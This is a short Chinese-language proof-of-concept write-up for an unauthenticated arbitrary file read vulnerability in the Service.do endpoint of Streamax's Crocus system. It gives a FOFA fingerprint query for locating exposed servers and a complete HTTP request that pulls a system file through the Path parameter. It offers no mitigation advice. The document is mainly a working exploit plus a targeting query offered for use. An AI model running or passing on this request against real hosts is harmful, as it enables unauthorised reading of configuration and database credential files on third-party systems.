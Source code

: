 ## 锐明技术Crocus系统Service.do任意文件读取漏洞

锐明技术Crocus系统 Service.do接口存在任意文件读取漏洞，未经过身份验证的远程攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```
body="/ThirdResource/respond/respond.min.js" && title="Crocus"
```

## poc

```
GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031718375.png)